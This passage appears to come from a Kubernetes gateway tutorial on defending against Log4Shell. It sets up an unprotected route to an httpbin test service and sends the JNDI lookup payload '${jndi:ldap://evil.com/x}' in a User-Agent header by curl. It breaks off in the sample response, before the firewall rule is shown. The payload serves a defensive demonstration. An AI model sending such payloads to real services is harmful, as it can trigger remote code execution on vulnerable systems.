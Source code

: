 The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

## Demonstrate a vulnerable service

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That's what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

We'll first establish a virtual service that does NOT protect against the exploit, and evaluate it against the httpbin service we installed in earlier exercises.

```bash
cat <<'EOF' | envsubst | kubectl apply -f -
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - "httpbin.solo.io"
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
EOF
```

We'll simulate one of these attack vectors by passing our `evil.com` string in a request header to our gateway, and then see that request routed to the target service.

We'll use curl to simulate the attack, passing in the attack string as the value of the standard `User-Agent` header:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" http://httpbin.solo.io/anything -i
```

You should see a response that looks similar to the one below. Note that if the system under attack logged out its `User-Agent` header using log4j, then it could potentially be compromised.

```
HTTP/1.1 200 OK
date: Mon, 13 Dec 2021 23:20:22 GMT
content-type: application/json
content-length: 444
server: envoy
access-control-allow-origin: *
access-control-allow-credentials: true
x-envoy-upstream-service-time: 41

{
  "args": {},
  "data": "",
  "files": {},
```